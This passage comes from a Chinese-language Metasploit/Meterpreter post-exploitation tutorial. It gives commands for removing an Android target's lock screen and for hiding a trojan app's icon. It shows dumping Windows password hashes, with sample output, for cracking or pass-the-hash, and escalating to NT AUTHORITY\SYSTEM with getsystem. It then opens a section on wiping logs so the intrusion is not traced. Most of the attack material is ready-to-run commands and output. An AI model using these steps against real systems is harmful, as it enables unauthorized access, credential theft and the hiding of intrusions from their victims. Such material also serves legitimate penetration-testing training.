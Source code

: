 更多的windows函数请自行参考msdn自由发挥，查找本地**railgun**函数，在终端中输入`locate railgun`即可。

## 安卓中的特殊功能

### 移除目标锁屏

```shell
post/android/manage/remove_lock
```

### 隐藏木马应用图标

```shell
> hide_app_icon
```

## 其他常用功能汇总

### windows中hash密码的使用

拿到目标主机hashdump值目的就是获取目标主机的登录密码，可以通过**L0phtCrack**或者**ophcrack**等工具进行破解得到明文密码。但有时候也并不是需要破解hash值，metasploit里有很多功能功能可以通过hash传递获取目标主机权限。

```shell
# dump出目标主机用户名密码
meterpreter > hashdump
admin:1007:f0d412bd764ffe81aad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:496f4dcd132458b604fd1c9a01b28dc9:788d18962d30303246126d61f1fed54c:::
metasploit:1006:ab594876e19d0e7b3fa46817fc0ee1fb:d1508f574ec4ce7358fb0c87949072a7:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:00f0e7d86e6837feb487c8f18eeace02:::
wangjun:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

### 终端shell权限提升

```shell
# 查看当前用户
meterpreter > getuid
Server username: EVAN\wangjun
# 获取系统用户权限
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
# 再次查看当前用户，已变更
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### 清理踪迹日志

当在目标主机上做了很多操作时，系统默认将一些特殊的操作以日志的形式记录在系统中，如果不刻意的清理日志，很容易会被追查出来。
